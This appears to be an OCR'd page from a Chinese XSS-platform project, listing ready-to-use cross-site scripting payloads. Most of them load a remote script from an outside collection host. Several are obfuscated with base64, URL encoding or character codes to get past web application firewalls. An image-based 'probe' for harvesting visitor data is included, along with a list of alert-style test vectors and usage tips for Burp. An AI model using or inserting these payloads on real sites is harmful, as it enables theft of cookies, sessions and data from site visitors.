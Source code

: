 ```
</tExtArEa>'"><sCRiPt sRC=//x0.nz/T4yt></sCrIpT>
```



或者



```
'"><input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veDAubnovVDR5dCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs= autofocus>
'"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veDAubnovVDR5dCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs= onerror=eval(atob(this.id))>
</tEXtArEa>'"><img src=# id=xssyou style=display:none onerror=eval(unescape(/var%20b%3Ddocument.createElement%28%22script%22%29%3Bb.src%3D%22https%3A%2F%2Fx0.nz%2FT4yt%22%2BMath.random%28%29%3B%28document.getElementsByTagName%28%22HEAD%22%29%5B0%5D%7C%7Cdocument.body%29.appendChild%28b%29%3B/.source));//>
<img src=x onerror=s=createElement('script');body.appendChild(s);s.src='//x0.nz/T4yt';>
```





下方XSS代码过一般WAF [注意如果直接把代码放入Burp，则需要把下方代码进行[URL编码](http://tool.chinaz.com/tools/urlencode.aspx)]



```
<embed src=https://x0.nz/liuyan/xs.swf?a=e&c=doc\u0075ment.write(St\u0072ing.from\u0043harCode(60,115,67,82,105,80,116,32,115,82,67,61,47,47,120,48,46,110,122,47,84,52,121,116,62,60,47,115,67,114,73,112,84,62)) allowscriptaccess=always type=application/x-shockwave-flash></embed>
```



若使用下方XSS代码请注意(下面代码会引起网页空白不得已慎用，注意如果使用下面的代码，一定要勾选“基础默认XSS”模块)



```
<img src="" onerror="document.write(String.fromCharCode(60,115,67,82,105,80,116,32,115,82,67,61,47,47,120,48,46,110,122,47,84,52,121,116,62,60,47,115,67,114,73,112,84,62))">
```



↓↓↓！~极限代码~！(可以不加最后的>回收符号，下面代码已测试成功)↓↓↓



```
<sCRiPt/SrC=//x0.nz/T4yt>
```







------

------

↓↓↓图片探测系统，只要对方网站可以调用外部图片(或可自定义HTML)，请填入下方图片地址(代码)，则探测对方数据↓↓↓

图片插件一：  **https://x0.nz/T4yt/test.jpg**   【[若使用此探测，必须勾选‘默认模块’！！！点击查看使用说明](https://woj.app/1785.html)】



```
<Img srC=https://x0.nz/T4yt/test.jpg> or <Img srC="https://x0.nz/T4yt/test.jpg">
```





```
<Img sRC=//x0.nz/T4yt/test.jpg>
```



------

图片插件二：  【[若使用此探测，建议勾选‘默认模块’。点击查看使用说明](https://woj.app/3377.html)】

![可右键保存此文件到本地，此图片文件已含有当前项目XSS代码，建议勾选[默认模块]使用。](https://g)

------

<img src=x onerror=alert(String.fromCharCode(76,49,57,49,55));>

<details%20ontoggle=alert(1)>

```
</p>"</textarea><a draggable="true" "ondragenter=confirm(1)" src="<script>alert(1)</script>">test111</a></textarea>

</p>"</textarea><a onbeforecopy="prompt(1)" contenteditable>test222</a></textarea>

</p>"</textarea><applet oncut=confirm(1) value="XSS" autofocus tabindex=1>test</textarea>

</p>"</textarea><strong draggable="true" ondragenter=confirm(1) style="width:100px,height:100px">test</textarea>

</p>"<iframe οnlοad="prompt(1)"></iframe>

</p>"<iframe src=""><a href="javascript:alert(1)">Click</a></iframe>

</p>"<iframe src="javascript:alert(1)">test</iframe>

</p>"<iframe src="data:text/html,<script>alert(1)</script>"></iframe>

</p>"<iframe src="//xxx.cc/xxx/test.jpg"></iframe>

</p>"<iframe src="//t00ls.xxx.tu4.org"></iframe>

</p>"<iframe src="javascript:eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 50, 51, 41))"></iframe>

</p>"test<iframe src="data:text/html,<script>confirm(/xss/)</script>"></iframe>

</p>"test<iframe src="<script>alert(1)</script>"></iframe>

</p>"<iframe src=""<script>alert(1)</script>"http://test.xxx.xxx.cn/#draggable="true" "ondragenter=confirm(1)"/home">test</iframe> `



<svg><animate xlink:href="#x" attributeName="href" values="data:image/svg+xml,<svg id='x' xmlns='http://www.w3.org/2000/svg'>
<image href='1' onerror='alert(1)' /></svg>#x" />
<use id=x />




<svg><use href="data:image/svg+xml,<svg id='x' xmlns='http://www.w3.org/2000/svg'><image href='1' onerror='alert(1)' /></svg>#x" />
```
